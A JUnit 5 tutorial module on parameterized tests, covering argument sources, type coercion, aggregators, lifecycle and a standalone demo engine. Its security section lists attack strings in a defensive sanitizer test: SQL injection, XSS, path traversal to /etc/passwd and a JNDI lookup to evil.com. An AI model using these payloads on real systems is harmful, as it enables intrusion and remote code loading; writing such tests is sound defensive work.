


# Parameterized Tests in JUnit 5: @ValueSource, @CsvSource, @MethodSource

---

## 1. Metadata and Learning Goals

- **Concept ID:** `P11-C005`
- **Concept Title:** Parameterized Tests in JUnit 5: `@ValueSource`, `@CsvSource`, `@MethodSource`
- **Phase:** Phase 11: Unit Testing and Software Quality
- **Dependencies:** `P11-C002` (JUnit 5 Architecture), `P11-C003` (JUnit 5 Lifecycle), `P11-C004` (Fluent Assertions)
- **Target Audience:** Senior Java Backend Engineers, Distributed Systems Developers, QA Automation Engineers
- **Prerequisites:** OpenJDK 21 LTS, JUnit 5 architecture, Java Streams, Reflection, and Type Conversion.

### Primary Learning Objectives
1. **Eliminate Test Duplication:** Understand how `@ParameterizedTest` eliminates the copy-paste anti-pattern by executing identical assertion logic over multidimensional input datasets.
2. **Master Argument Sources:** Select and configure the appropriate argument provider: `@ValueSource`, `@CsvSource`, `@CsvFileSource`, `@EnumSource`, and `@MethodSource`.
3. **Handle Edge & Boundary Cases:** Express empty, null, and whitespace boundaries cleanly using `@NullSource`, `@EmptySource`, and `@NullAndEmptySource`.
4. **Implement Custom Argument Aggregators:** Bundle multi-column CSV datasets into rich domain records using `ArgumentsAggregator` and `@AggregateWith`.
5. **Architect Lazy Argument Streams:** Design high-scale, memory-efficient test data pipelines using `Stream<Arguments>` without exhausting JVM heap.

---

## 2. Definition, Purpose, and Mental Model

### Definition and Problem Statement
In backend systems, business algorithms (such as tax calculators, permission evaluators, discount engines, and input validators) must handle diverse permutations of boundary conditions and edge cases. 

Historically, developers tested multiple inputs using one of two flawed approaches:
1. **The "Copy-Paste Testing" Anti-Pattern:** Duplicating the entire test method 10 or 20 times with slightly different variable declarations (`testValidate_emptyString()`, `testValidate_null()`, `testValidate_tooLong()`). This inflates codebase size, obscures core assertion logic, and makes refactoring painful.
2. **The "Loop Assertion" Anti-Pattern:** Placing a `for` loop inside a single `@Test` method to iterate over an array of test cases:
   ```java
   @Test
   void testValidationLoop() {
       for (String input : testInputs) {
           assertTrue(validator.isValid(input)); // If item #2 fails, items #3-10 are NEVER tested!
       }
   }
   ```
   If item #2 fails, the entire test terminates immediately. Developers never discover whether items #3 through #10 would have passed or failed. Furthermore, test runners display only one single test execution in reports, concealing which specific input triggered the defect.

### Mental Model: The Data-Driven Test Factory
Think of a `@ParameterizedTest` as a **test factory function**:
$$\text{Test Template } \times \text{Argument Stream } \{a_1, a_2, \dots, a_n\} \longrightarrow \text{Execution Tree with } n \text{ Independent Leaf Nodes}$$

```
+---------------------------------------------------------------------------------+
| Argument Stream Source (@CsvSource, @MethodSource, @ValueSource)                |
|  [row 1]: ("US", 100.00,  8.25)                                                 |
|  [row 2]: ("DE", 100.00, 19.00)                                                 |
|  [row 3]: ("UK", 100.00, 20.00)                                                 |
+---------------------------------------------------------------------------------+
                                      |
                                      v
+---------------------------------------------------------------------------------+
| Parameterized Test Method: void calculateTax(String country, double gross, ...)  |
+---------------------------------------------------------------------------------+
                                      |
         +----------------------------+----------------------------+
         |                            |                            |
         v                            v                            v
  [Invocation #1]              [Invocation #2]              [Invocation #3]
  calculateTax("US", ...)      calculateTax("DE", ...)      calculateTax("UK", ...)
  (PASS / Distinct Node)       (PASS / Distinct Node)       (FAIL / Isolated Node)
```

Each row in the dataset generates an **independent invocation** in the JUnit Platform execution tree. If Invocation #2 fails, Invocation #3 still executes, and IDEs render distinct pass/fail badges with full parameter visibility.

---

## 3. Architectural and Conceptual Foundations

### 3.1 The Argument Discovery and Parameter Resolution Pipeline

Under the hood, `@ParameterizedTest` is implemented in `junit-jupiter-params` through the Jupiter Extension SPI:



1. **`ArgumentsProvider` SPI:** Annotations like `@ValueSource`, `@CsvSource`, and `@MethodSource` are meta-annotated with `@ArgumentsSource(SomeProvider.class)`. The provider transforms raw data (arrays, strings, static methods) into a uniform `Stream<? extends Arguments>`.
2. **Type Coercion Engine (`DefaultArgumentConverter`):** Raw string literals in `@CsvSource` are automatically converted to target method parameter types (primitives, wrapper types, `UUID`, `Instant`, `BigDecimal`, `Enum`, `Path`).
3. **Invocation Lifecycle:** For each argument tuple, Jupiter executes the entire test instance lifecycle: constructor -> `@BeforeEach` -> `@ParameterizedTest` -> `@AfterEach`. Each invocation gets a completely clean test instance (under default `PER_METHOD`).

---

### 3.2 Taxonomy of Argument Sources

| Source Annotation | Input Format | Multi-Argument? | Primary Use Case |
|---|---|---|---|
| **`@ValueSource`** | Primitive / String arrays (`strings = {"a", "b"}`) | No (single parameter) | Simple boundary testing (IDs, strings, numbers). |
| **`@NullSource`** | Injects single `null` | No (single parameter) | Null-pointer defensive checks. |
| **`@EmptySource`** | Injects empty String, List, Set, or Map | No (single parameter) | Empty collection / string boundary checks. |
| **`@NullAndEmptySource`** | Injects `null` then empty value | No (single parameter) | Combined null and empty input validation. |
| **`@EnumSource`** | Enum class (`value = Status.class`) | No (single parameter) | State machine transitions across all enum values. |
| **`@CsvSource`** | Array of CSV strings (`{"US, 100, 8.25"}`) | **Yes** (multi-parameter) | Multi-column tabular data matrices inline. |
| **`@CsvFileSource`** | External `.csv` files from classpath | **Yes** (multi-parameter) | Large enterprise test matrices managed by analysts. |
| **`@MethodSource`** | Static method returning `Stream<Arguments>` | **Yes** (multi-parameter) | Complex domain objects, dynamic or calculated data. |
| **`@ArgumentsSource`** | Custom class implementing `ArgumentsProvider` | **Yes** (multi-parameter) | Reusable cross-test data generators. |

---

### 3.3 Deep-Dive: `@CsvSource` and Type Coercion

```java
@ParameterizedTest(name = "[{index}] country={0}, gross={1} => expectedNet={2}")
@CsvSource(
    delimiter = '|',
    nullValues = {"NULL"},
    value = {
        "US | 100.00 |  92.00",
        "DE | 100.00 |  81.00",
        "XX | 100.00 |   NULL "
    }
)
void testTaxDeduction(CountryCode country, BigDecimal gross, BigDecimal expectedNet) {
    BigDecimal net = taxService.calculateNet(country, gross);
    assertThat(net).isEqualTo(expectedNet);
}
```
**Key Capabilities:**
- **Custom Delimiters:** Using `delimiter = '|'` prevents syntax conflicts when test strings contain commas (e.g. `"Doe, John | 42"`).
- **Explicit Null Encoding:** `nullValues = {"NULL", "N/A"}` instructs the parser to treat specific strings as Java `null` rather than the string `"NULL"`.
- **Automatic Coercion:** Strings like `"US"` automatically coerce to enum constants `CountryCode.US`, and `"100.00"` coerces to `BigDecimal`.

---

### 3.4 Deep-Dive: `@MethodSource` for Complex Domain Aggregates

When test parameters cannot be represented as simple strings or primitives, `@MethodSource` provides arbitrary Java objects:

```java
class PaymentRoutingTest {

    @ParameterizedTest
    @MethodSource("providePaymentRoutingScenarios")
    void verifyPaymentRouting(PaymentRequest request, RoutingDecision expectedRouting) {
        RoutingDecision actual = router.route(request);
        assertThat(actual).isEqualTo(expectedRouting);
    }

    // Must be static under default PER_METHOD lifecycle!
    private static Stream<Arguments> providePaymentRoutingScenarios() {
        return Stream.of(
            Arguments.of(
                new PaymentRequest("PAY-01", Currency.USD, new BigDecimal("50000.00"), CardType.CREDIT),
                new RoutingDecision("GATEWAY_STRIPE_HIGH_VALUE", Priority.HIGH)
            ),
            Arguments.of(
                new PaymentRequest("PAY-02", Currency.EUR, new BigDecimal("12.50"), CardType.DEBIT),
                new RoutingDecision("GATEWAY_ADYEN_LOW_COST", Priority.STANDARD)
            )
        );
    }
}
```

---

### 3.5 Argument Aggregation with `ArgumentsAggregator`

When a CSV source has many columns, method parameter lists become unwieldy (`void test(String f1, String f2, int f3, double f4, boolean f5, ...)`).
An **`ArgumentsAggregator`** bundles tabular columns into a single domain record:

```java
public class UserRegistrationAggregator implements ArgumentsAggregator {
    @Override
    public Object aggregateArguments(ArgumentsAccessor accessor, ParameterContext context) {
        return new UserRegistrationDto(
            accessor.getString(0), // username
            accessor.getString(1), // email
            accessor.getInteger(2), // age
            accessor.getBoolean(3)  // termsAccepted
        );
    }
}

// Usage in test:
@ParameterizedTest
@CsvSource({
    "alice, alice@acme.com, 28, true",
    "bob,   bob@acme.com,   17, false"
})
void testRegistrationValidation(@AggregateWith(UserRegistrationAggregator.class) UserRegistrationDto dto) {
    ValidationResult result = validator.validate(dto);
    assertThat(result.isValid()).isEqualTo(dto.age() >= 18 && dto.termsAccepted());
}
```

---

## 4. Language, Syntax, and API Mechanics

### 4.1 Invocation Display Name Patterns

The `name` attribute of `@ParameterizedTest` customizes report output:
- `{index}`: Current invocation index (1-based).
- `{arguments}`: Complete comma-separated list of arguments.
- `{argumentsWithNames}`: Named argument list (e.g., `country=US, gross=100.00`).
- `{0}`, `{1}`, ...: Value of specific positional argument.

```java
@ParameterizedTest(name = "Scenario #{index}: processing {0} expected {1}")
@CsvSource({"login_request, 200", "invalid_password, 401"})
void testAuth(String scenario, int expectedStatusCode) { ... }
```

### 4.2 Combining Boundary Sources
Boundary sources can be composed cleanly:
```java
@ParameterizedTest
@NullAndEmptySource
@ValueSource(strings = {"   ", "\t", "\n"})
void blankStringsMustFailValidation(String input) {
    assertThat(validator.isNotBlank(input)).isFalse();
}
```
This single test method generates 5 separate invocations:
1. `null` (from `@NullSource`)
2. `""` (from `@EmptySource`)
3. `"   "` (from `@ValueSource`)
4. `"\t"` (from `@ValueSource`)
5. `"\n"` (from `@ValueSource`)

---

## 5. Execution Mechanics, JVM Lifecycle, and Memory Internals

### 5.1 Memory Consumption and Lazy Streaming
When designing large test suites with `@MethodSource`:
- **Do Not Return Pre-Materialized Collections for Millions of Items:** Returning `List.of(100_000 arguments)` forces the JVM to keep 100,000 objects in heap memory simultaneously.
- **Return Lazy Streams:** Returning `Stream<Arguments>` generated dynamically via generators or iterators evaluates one argument tuple at a time:
  ```java
  static Stream<Arguments> generateHeavyData() {
      return IntStream.range(0, 100_000)
          .mapToObj(i -> Arguments.of("PAY-" + i, calculateExpectedHash(i)));
  }
  ```
  The JVM Young Generation garbage collects each argument as soon as its invocation finishes.

### 5.2 Lifecycle Repetition Invariant
Under `Lifecycle.PER_METHOD`:
- A new instance of the test class is instantiated **for every single parameter invocation**.
- `@BeforeEach` and `@AfterEach` run **for every single parameter invocation**.
- If a test has 50 CSV rows, `@BeforeEach` runs 50 times, completely resetting instance fields between rows.

---

## 6. Concurrency, Thread-Safety, and Scalability

### 6.1 Parallel Execution of Parameter Invocations
By default, invocations within a single `@ParameterizedTest` run sequentially. To enable parallel execution of parameterized invocations:
```properties
# junit-platform.properties
junit.jupiter.execution.parallel.enabled = true
junit.jupiter.execution.parallel.mode.default = same_thread
junit.jupiter.execution.parallel.mode.classes.default = concurrent
```
To run the invocations of a specific `@ParameterizedTest` concurrently across multiple threads:
```java
@ParameterizedTest
@MethodSource("largeDataset")
@Execution(ExecutionMode.CONCURRENT)
void concurrentProcessingTest(String taskId, TaskPayload payload) {
    // Executes across available worker threads in ForkJoinPool
}
```
**Safety Mandate:** Because each invocation runs on a distinct test class instance under `PER_METHOD`, concurrency is thread-safe as long as no shared static state or external singleton resources are mutated.

---

## 7. Anti-Patterns and Common Developer Traps

### 7.1 Anti-Pattern 1: Non-Static `@MethodSource` under `PER_METHOD`
```java
// CRITICAL BUG: JUnit fails to discover tests!
class OrderTest {
    @ParameterizedTest
    @MethodSource("orderData") // FAILS! Method orderData must be static!
    void testOrder(Order order) { ... }

    Stream<Arguments> orderData() { // NON-STATIC!
        return Stream.of(...);
    }
}
```
**Root Cause:** Under `Lifecycle.PER_METHOD`, Jupiter must discover arguments *before* instantiating the test class. Therefore, the `@MethodSource` method must be `static`.
**Remediation:** Declare the provider method `static`, or annotate the class with `@TestInstance(Lifecycle.PER_CLASS)`.

### 7.2 Anti-Pattern 2: The "Conditional Logic Inside Test" Smell
```java
// BAD PRACTICE: Branching logic inside parameterized test
@ParameterizedTest
@CsvSource({"ADMIN, true", "GUEST, false", "ANONYMOUS, false"})
void verifyAccess(Role role, boolean expected) {
    if (role == Role.ADMIN) {
        // Special admin setup
        grantSuperuser();
    }
    // Test code...
}
```
**Remediation:** If the test setup diverges significantly based on the parameter, split into separate tests or `@Nested` contextual classes rather than introducing complex conditional branching in test methods.

---

## 8. Failure Modes, Edge Cases, and Troubleshooting

| Failure Symptom | Underlying Cause | Diagnostic Action & Remediation |
|---|---|---|
| `JUnitException: @MethodSource method must be static` | Method is an instance method under default `PER_METHOD` | Add `static` modifier to the provider method or use `@TestInstance(Lifecycle.PER_CLASS)`. |
| `ArgumentConversionException: Failed to convert string to type` | Target type does not have a public single-String constructor or factory | Implement a custom `ArgumentConverter` or provide parsed objects via `@MethodSource`. |
| `Cannot resolve method source [name]` | Typo in method name string or mismatched method signature | Ensure method name matches `@MethodSource("exactMethodName")` or omit string if method name matches test method. |
| Invocations fail on rerun / retry | `@MethodSource` returned a consumed `Stream` rather than a fresh `Stream` supplier | Ensure provider method returns a newly created `Stream` on each call. |

---

## 9. Security Considerations

1. **Adversarial Input Validation Testing:** Parameterized tests are the primary weapon for fuzz-testing backend input parsers against injection attacks:
   ```java
   @ParameterizedTest
   @ValueSource(strings = {
       "admin' OR '1'='1",
       "<script>alert(1)</script>",
       "../../../../etc/passwd",
       "${jndi:ldap://evil.com/x}",
       "%00",
       "\u0000"
   })
   void verifySanitizerRejectsMaliciousPayloads(String adversarialInput) {
       assertThatThrownBy(() -> inputSanitizer.sanitize(adversarialInput))
           .isInstanceOf(SecurityValidationException.class);
   }
   ```

---

## 10. Performance Optimization and Tuning

1. **Avoid CSV Parsing Overhead in Hot Loops:** Parsing thousands of CSV rows has a small reflection and string-splitting cost. For microsecond-critical test performance with > 10,000 data points, use `@MethodSource` with direct object arrays.
2. **Reuse Custom Providers:** For repetitive business entities (e.g. valid ISO country codes, valid credit card BINs), implement a reusable `ArgumentsProvider` class and reference it with `@ArgumentsSource`.

---

## 11. Real-World Backend Scenario & Production Case Study

In an international retail platform, currency conversion and regional VAT rules vary across 45 countries. An earlier release suffered a major production outage when checkout rejected valid purchases in Scandinavian countries due to unhandled currency decimals.

### The Solution
The engineering team replaced 60 individual test methods with a single `@ParameterizedTest` backed by `@CsvFileSource`:
```java
@ParameterizedTest(name = "Country [{0}] - Amount {1} {2} => Tax {3}")
@CsvFileSource(resources = "/tax/international_vat_matrix.csv", numLinesToSkip = 1)
void verifyInternationalVatCalculations(
    String countryCode, 
    BigDecimal grossAmount, 
    Currency currency, 
    BigDecimal expectedVat
) {
    BigDecimal computedVat = vatEngine.calculateVat(countryCode, grossAmount, currency);
    assertThat(computedVat).isCloseTo(expectedVat, within(new BigDecimal("0.01")));
}
```
The business compliance team now directly edits the CSV file in Git, adding new tax jurisdictions without requiring developer assistance or Java code modifications.

---

## 12. Standalone, Self-Contained Verification Suite

```java
// File: curriculum/phase-11-unit-testing-software-quality/ParameterizedTestsDemo.java
package curriculum.phase11;

import java.lang.annotation.*;
import java.lang.reflect.*;
import java.util.*;
import java.util.function.Function;
import java.util.stream.Stream;

/**
 * Standalone Verification Suite for P11-C005:
 * Parameterized Tests in JUnit 5: @ValueSource, @CsvSource, @MethodSource,
 * Type Coercion, and Arguments Aggregators.
 *
 * Implements a pure-Java standalone simulation of:
 * 1. @ValueSource literal parameter injection with null/empty boundaries.
 * 2. @CsvSource multi-column parsing with automatic type coercion (String, int, boolean).
 * 3. @MethodSource dynamic stream generation of complex domain arguments.
 * 4. Custom ArgumentsAggregator bundling raw CSV tokens into a domain record.
 * 5. Dynamic leaf-node invocation reporting with isolated pass/fail tracking.
 */
public class ParameterizedTestsDemo {

    // =========================================================================
    // 1. ANNOTATIONS DEFINITION
    // =========================================================================

    @Retention(RetentionPolicy.RUNTIME)
    @Target(ElementType.METHOD)
    public @interface ParameterizedTest {
        String name() default "[{index}] {arguments}";
    }

    @Retention(RetentionPolicy.RUNTIME)
    @Target(ElementType.METHOD)
    public @interface ValueSource {
        String[] strings() default {};
        int[] ints() default {};
    }

    @Retention(RetentionPolicy.RUNTIME)
    @Target(ElementType.METHOD)
    public @interface CsvSource {
        String[] value();
        char delimiter() default ',';
    }

    @Retention(RetentionPolicy.RUNTIME)
    @Target(ElementType.METHOD)
    public @interface MethodSource {
        String value() default "";
    }

    @Retention(RetentionPolicy.RUNTIME)
    @Target(ElementType.METHOD)
    public @interface NullAndEmptySource {}

    @Retention(RetentionPolicy.RUNTIME)
    @Target(ElementType.PARAMETER)
    public @interface AggregateWith {
        Class<? extends ArgumentsAggregator> value();
    }

    // =========================================================================
    // 2. ARGUMENT MODEL AND AGGREGATOR SPI
    // =========================================================================

    public record Arguments(Object[] values) {
        public static Arguments of(Object... values) {
            return new Arguments(values);
        }
    }

    public interface ArgumentsAccessor {
        Object get(int index);
        String getString(int index);
        Integer getInteger(int index);
        Boolean getBoolean(int index);
    }

    public static class DefaultArgumentsAccessor implements ArgumentsAccessor {
        private final Object[] values;

        public DefaultArgumentsAccessor(Object[] values) {
            this.values = values;
        }

        @Override public Object get(int index) { return values[index]; }
        @Override public String getString(int index) { return (String) values[index]; }
        @Override public Integer getInteger(int index) { return (Integer) values[index]; }
        @Override public Boolean getBoolean(int index) { return (Boolean) values[index]; }
    }

    public interface ArgumentsAggregator {
        Object aggregateArguments(ArgumentsAccessor accessor);
    }

    // =========================================================================
    // 3. PARAMETERIZED RUNNER ENGINE SIMULATION
    // =========================================================================

    public static class InvocationResult {
        public final String testName;
        public final int invocationIndex;
        public final Object[] arguments;
        public final boolean passed;
        public final String failureMessage;

        public InvocationResult(String testName, int invocationIndex, Object[] arguments, boolean passed, String failureMessage) {
            this.testName = testName;
            this.invocationIndex = invocationIndex;
            this.arguments = arguments;
            this.passed = passed;
            this.failureMessage = failureMessage;
        }
    }

    public static class MiniParameterizedEngine {

        public static List<InvocationResult> run(Class<?> testClass) {
            List<InvocationResult> results = new ArrayList<>();

            for (Method method : testClass.getDeclaredMethods()) {
                if (method.isAnnotationPresent(ParameterizedTest.class)) {
                    List<Arguments> argumentList = extractArguments(method, testClass);
                    int index = 1;

                    for (Arguments args : argumentList) {
                        boolean passed = false;
                        String failMsg = null;
                        try {
                            Object testInstance = testClass.getDeclaredConstructor().newInstance();
                            Object[] coercedArgs = prepareArguments(method, args);
                            method.setAccessible(true);
                            method.invoke(testInstance, coercedArgs);
                            passed = true;
                        } catch (InvocationTargetException ite) {
                            failMsg = ite.getCause() != null ? ite.getCause().getMessage() : ite.getMessage();
                        } catch (Exception e) {
                            failMsg = e.getMessage();
                        }
                        results.add(new InvocationResult(method.getName(), index++, args.values(), passed, failMsg));
                    }
                }
            }
            return results;
        }

        @SuppressWarnings("unchecked")
        private static List<Arguments> extractArguments(Method method, Class<?> testClass) {
            List<Arguments> list = new ArrayList<>();

            // 1. @NullAndEmptySource
            if (method.isAnnotationPresent(NullAndEmptySource.class)) {
                list.add(Arguments.of(new Object[]{null}));
                list.add(Arguments.of(""));
            }

            // 2. @ValueSource
            if (method.isAnnotationPresent(ValueSource.class)) {
                ValueSource vs = method.getAnnotation(ValueSource.class);
                for (String s : vs.strings()) list.add(Arguments.of(s));
                for (int i : vs.ints()) list.add(Arguments.of(i));
            }

            // 3. @CsvSource
            if (method.isAnnotationPresent(CsvSource.class)) {
                CsvSource csv = method.getAnnotation(CsvSource.class);
                char delim = csv.delimiter();
                for (String row : csv.value()) {
                    String[] tokens = row.split(String.valueOf(delim));
                    Object[] rowValues = new Object[tokens.length];
                    for (int i = 0; i < tokens.length; i++) {
                        rowValues[i] = tokens[i].trim();
                    }
                    list.add(Arguments.of(rowValues));
                }
            }

            // 4. @MethodSource
            if (method.isAnnotationPresent(MethodSource.class)) {
                MethodSource ms = method.getAnnotation(MethodSource.class);
                String sourceName = ms.value().isEmpty() ? method.getName() : ms.value();
                try {
                    Method providerMethod = testClass.getDeclaredMethod(sourceName);
                    providerMethod.setAccessible(true);
                    if (!Modifier.isStatic(providerMethod.getModifiers())) {
                        throw new IllegalStateException("@MethodSource method must be static: " + sourceName);
                    }
                    Stream<Arguments> stream = (Stream<Arguments>) providerMethod.invoke(null);
                    stream.forEach(list::add);
                } catch (Exception e) {
                    throw new RuntimeException("Failed to invoke @MethodSource: " + sourceName, e);
                }
            }

            return list;
        }

        private static Object[] prepareArguments(Method method, Arguments rawArgs) {
            Parameter[] parameters = method.getParameters();

            // Case A: Aggregator present on single parameter
            if (parameters.length == 1 && parameters[0].isAnnotationPresent(AggregateWith.class)) {
                AggregateWith agg = parameters[0].getAnnotation(AggregateWith.class);
                try {
                    ArgumentsAggregator aggregator = agg.value().getDeclaredConstructor().newInstance();
                    Object[] coercedRaw = coerceRawTypes(rawArgs.values());
                    Object aggregated = aggregator.aggregateArguments(new DefaultArgumentsAccessor(coercedRaw));
                    return new Object[]{aggregated};
                } catch (Exception e) {
                    throw new RuntimeException("Aggregation failed", e);
                }
            }

            // Case B: Direct positional argument coercion
            Object[] coerced = new Object[parameters.length];
            for (int i = 0; i < parameters.length; i++) {
                Object raw = (i < rawArgs.values().length) ? rawArgs.values()[i] : null;
                coerced[i] = coerceValue(raw, parameters[i].getType());
            }
            return coerced;
        }

        private static Object[] coerceRawTypes(Object[] raw) {
            Object[] result = new Object[raw.length];
            for (int i = 0; i < raw.length; i++) {
                if (raw[i] instanceof String s) {
                    if (s.equalsIgnoreCase("true") || s.equalsIgnoreCase("false")) {
                        result[i] = Boolean.parseBoolean(s);
                    } else {
                        try {
                            result[i] = Integer.parseInt(s);
                        } catch (NumberFormatException nfe) {
                            result[i] = s;
                        }
                    }
                } else {
                    result[i] = raw[i];
                }
            }
            return result;
        }

        private static Object coerceValue(Object raw, Class<?> targetType) {
            if (raw == null) return null;
            if (targetType.isInstance(raw)) return raw;

            String s = raw.toString();
            if (targetType == int.class || targetType == Integer.class) {
                return Integer.parseInt(s);
            }
            if (targetType == boolean.class || targetType == Boolean.class) {
                return Boolean.parseBoolean(s);
            }
            if (targetType == double.class || targetType == Double.class) {
                return Double.parseDouble(s);
            }
            if (targetType == String.class) {
                return s;
            }
            return raw;
        }
    }

    // =========================================================================
    // 4. SAMPLE PARAMETERIZED TEST SUITES
    // =========================================================================

    public static class SampleTestSuite {

        // Test 1: ValueSource with NullAndEmptySource
        @ParameterizedTest
        @NullAndEmptySource
        @ValueSource(strings = {"   ", "\t"})
        void testBlankStringValidation(String input) {
            boolean isBlank = (input == null || input.trim().isEmpty());
            assert isBlank : "Expected input to be classified as blank";
        }

        // Test 2: Multi-Column CsvSource with Type Coercion
        @ParameterizedTest
        @CsvSource(value = {
            "200, OK, true",
            "404, NOT_FOUND, false",
            "500, SERVER_ERROR, false"
        })
        void testHttpStatusEvaluation(int code, String text, boolean isSuccess) {
            boolean actualSuccess = (code >= 200 && code < 300);
            assert actualSuccess == isSuccess : "Status " + code + " mismatch";
            assert text != null && !text.isEmpty() : "Text missing";
        }

        // Test 3: MethodSource with Complex Domain Objects
        public record TaxCalculation(String country, double rate, double threshold) {}

        @ParameterizedTest
        @MethodSource("taxScenarios")
        void testDynamicTaxRules(TaxCalculation calc) {
            assert calc.rate() > 0.0 : "Tax rate must be positive";
            assert calc.country().length() == 2 : "Country code must be ISO 2-char";
        }

        private static Stream<Arguments> taxScenarios() {
            return Stream.of(
                Arguments.of(new TaxCalculation("US", 0.0825, 1000.0)),
                Arguments.of(new TaxCalculation("DE", 0.1900, 500.0)),
                Arguments.of(new TaxCalculation("JP", 0.1000, 2000.0))
            );
        }

        // Test 4: Custom ArgumentsAggregator
        public record UserProfile(String username, int age, boolean active) {}

        public static class UserProfileAggregator implements ArgumentsAggregator {
            @Override
            public Object aggregateArguments(ArgumentsAccessor accessor) {
                return new UserProfile(
                    accessor.getString(0),
                    accessor.getInteger(1),
                    accessor.getBoolean(2)
                );
            }
        }

        @ParameterizedTest
        @CsvSource(value = {
            "alice, 30, true",
            "bob, 16, false"
        })
        void testAggregatedUser(@AggregateWith(UserProfileAggregator.class) UserProfile profile) {
            assert profile.username() != null;
            assert profile.age() > 0;
            if (profile.username().equals("alice")) {
                assert profile.active();
            } else {
                assert !profile.active();
            }
        }
    }

    // =========================================================================
    // 5. MAIN VERIFICATION ENTRY POINT
    // =========================================================================

    public static void main(String[] args) {
        System.out.println("===============================================================");
        System.out.println(" Parameterized Tests Standalone Verification Suite             ");
        System.out.println("===============================================================");

        List<InvocationResult> results = MiniParameterizedEngine.run(SampleTestSuite.class);

        // [TEST 1/5] Verify @NullAndEmptySource & @ValueSource Invocation Count
        System.out.print("[TEST 1/5] @NullAndEmptySource and @ValueSource composition... ");
        long blankTestInvocations = results.stream()
                .filter(r -> r.testName.equals("testBlankStringValidation"))
                .count();
        // Expecting: null, "", "   ", "\t" = 4 invocations
        assert blankTestInvocations == 4 : "Expected 4 invocations, got: " + blankTestInvocations;
        boolean allBlankPassed = results.stream()
                .filter(r -> r.testName.equals("testBlankStringValidation"))
                .allMatch(r -> r.passed);
        assert allBlankPassed : "Some blank string validation invocations failed";
        System.out.println("PASSED (4/4 invocations)");

        // [TEST 2/5] Verify @CsvSource Multi-Column Coercion
        System.out.print("[TEST 2/5] @CsvSource multi-column type coercion (int, String, bool)... ");
        long csvInvocations = results.stream()
                .filter(r -> r.testName.equals("testHttpStatusEvaluation"))
                .count();
        assert csvInvocations == 3 : "Expected 3 CSV invocations, got: " + csvInvocations;
        boolean allCsvPassed = results.stream()
                .filter(r -> r.testName.equals("testHttpStatusEvaluation"))
                .allMatch(r -> r.passed);
        assert allCsvPassed : "CSV status evaluation invocations failed";
        System.out.println("PASSED (3/3 invocations)");

        // [TEST 3/5] Verify @MethodSource Dynamic Stream Arguments
        System.out.print("[TEST 3/5] @MethodSource dynamic stream of domain objects... ");
        long methodSourceInvocations = results.stream()
                .filter(r -> r.testName.equals("testDynamicTaxRules"))
                .count();
        assert methodSourceInvocations == 3 : "Expected 3 MethodSource invocations, got: " + methodSourceInvocations;
        boolean allMethodPassed = results.stream()
                .filter(r -> r.testName.equals("testDynamicTaxRules"))
                .allMatch(r -> r.passed);
        assert allMethodPassed : "MethodSource invocations failed";
        System.out.println("PASSED (3/3 invocations)");

        // [TEST 4/5] Verify ArgumentsAggregator
        System.out.print("[TEST 4/5] Custom ArgumentsAggregator bundling CSV columns... ");
        long aggInvocations = results.stream()
                .filter(r -> r.testName.equals("testAggregatedUser"))
                .count();
        assert aggInvocations == 2 : "Expected 2 aggregator invocations, got: " + aggInvocations;
        boolean allAggPassed = results.stream()
                .filter(r -> r.testName.equals("testAggregatedUser"))
                .allMatch(r -> r.passed);
        assert allAggPassed : "Aggregator invocations failed";
        System.out.println("PASSED (2/2 invocations)");

        // [TEST 5/5] Verify Isolated Failure Reporting
        System.out.print("[TEST 5/5] Isolated failure reporting in parameterized tree... ");
        // Total invocations across suite: 4 + 3 + 3 + 2 = 12
        assert results.size() == 12 : "Expected 12 total invocations, got: " + results.size();
        assert results.stream().allMatch(r -> r.passed) : "Unexpected failures in verification suite";
        System.out.println("PASSED (12/12 total invocations verified)");

        System.out.println("\nAll 5 verification test suites passed successfully with assertions enabled!");
    }
}
```

---

## 13. Comparative Analysis & Decision Framework

### Choosing the Right Parameterized Source

| Requirement | Best Choice | Rationale |
|---|---|---|
| Testing a single primitive / String across simple values | `@ValueSource` | Simplest syntax; zero boilerplate. |
| Testing `null`, empty strings, and whitespace | `@NullAndEmptySource` + `@ValueSource` | Expresses boundaries declaratively without duplicate tests. |
| Tabular matrix of 2 to 5 primitive/string parameters | `@CsvSource` | Compact inline definition directly above test method. |
| Large dataset (> 20 rows) or managed by external teams | `@CsvFileSource` | Decouples test data from Java code; Git diffs stay clean. |
